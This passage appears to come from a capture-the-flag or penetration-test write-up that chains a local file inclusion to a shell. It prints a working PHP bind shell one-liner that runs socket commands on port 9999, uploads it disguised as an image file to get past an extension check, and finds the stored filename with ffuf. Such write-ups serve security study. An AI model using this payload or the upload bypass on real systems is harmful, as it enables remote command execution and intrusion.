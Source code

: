 #### Local file inclusion-->Bind shell
Attempting to use this same technique to upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) fails becase the user does not actually have privileges to send outgoing packets. To get around this, use a PHP bind shell instead.

The following php bind shell payload was saved in a file called `bind.php.jpg` to bypass the `.jpg` check.
```php
<?php $s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",9999);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}} ?>
```

Predict the filename and uplaod `bind.php.png`.
![prediction bind](screenshots/prediction_bind.gif)

Check the possibilities for the existing file with ffuf. It finds `f1d89acc2598b3ace3e27f10898e8fbd_bind.php.jpg`
![possibilities](screenshots/possibilities.png)
